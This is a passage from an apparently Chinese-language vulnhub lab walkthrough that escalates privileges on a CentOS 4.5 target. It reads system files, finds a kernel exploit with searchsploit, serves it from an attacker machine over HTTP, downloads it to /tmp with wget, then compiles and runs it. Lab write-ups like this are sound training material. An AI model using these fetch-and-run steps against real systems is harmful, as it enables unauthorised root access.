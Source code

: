 ```
收集系统信息，得知内核版本是2.6.9-55.EL，发行版本是centos4.5
uname -a
cat /etc/*-release
```

![image-20241207163635556](vulnhub靶场实战/image-20241207163635556.png)	

```
查询这个版本的漏洞，正好符合版本要求，并且第二个是提权的漏洞。
searchsploit centos 4.5
```

![image-20241207163750110](vulnhub靶场实战/image-20241207163750110.png)	

```
将这个c文件放到root目录下，并在root目录下开启web服务器，以便靶机能下载。
python -m SimpleHTTPServer 8086
```

```
在靶机下载恶意c文件。
cd /tmp
wget http://192.168.15.135:8086/9542.c
```

![image-20241207164641583](vulnhub靶场实战/image-20241207164641583.png)	

```
编译这个c文件并运行
gcc -o payload 9542.c && ./payload
```

